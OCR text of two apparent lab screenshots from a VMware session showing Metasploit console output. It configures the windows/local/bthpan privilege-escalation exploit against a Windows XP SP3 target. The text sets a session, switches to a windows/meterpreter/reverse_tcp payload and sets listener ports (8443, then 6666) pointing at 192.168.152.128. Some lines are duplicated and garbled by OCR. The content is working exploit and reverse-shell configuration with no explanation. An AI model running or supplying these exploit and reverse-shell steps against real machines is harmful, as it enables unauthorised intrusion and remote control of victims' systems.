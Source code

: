 hongkeketang-VMware Workstation
编辑（E）
戴工
Shell No.1
Shel No.1 文件（F）动作（A）
編辑（E） 查看（V）
帮助（H）
Payload options (windows/meterpreter/reverse_https): Name
Current Setting
Required
Description ----
EXITFUNC
thread
yes
Exit technique (Accepted: '', seh, thread, process, none) LHOST
192.168.152.128
yes
The local listener hostname LPORT
8443
yes
The local listener port LURI
no
The HTTP Path Exploit target:
PI
Name --
0
Windows XP SP3
msf5 exploit(windows/local/bthpan)>
msf5 exploit(windows/local/bthpan)> set session 1 session →1
msf5 exploit(windows/local/bthpan)> set payload windows/meterpreter/reverse_tcp payload =windows/meterpreter/reverse_tcp
I msf5 exploit(windows/local/bthpan)>



hongkeketang·VMware Workstation
Shell No.1
Shel No.1 文件（F）动作（A）编辑（E） 查看（V） 帮助（H）
Payload options (windows/meterpreter/reverse_https): Name
Current Setting
Required
Description EXITFUNC
thread
yes
Exit technique (Accepted: '', seh, thread, process, none) LHOST
192.168.152.128
yes
The local listener hostname LPORT
8443
yes
The local listener port LURI
no
The HTTP Path Exploit target:
PI
Name 一
0
Windows XP SP3
msf5 exploit(windows/local/bthpan)>
msf5 exploit(windows/local/bthpan)>set session 1 session →1
msf5 exploit(windows/local/bthpan)> set payload windows/meterpreter/reverse_tcp payload →windows/meterpreter/reverse_tcp
msf5 exploit(windows/local/bthpan)> set lport 6666 lport → 6666
I msf5 exploit(windows/local/bthpan)
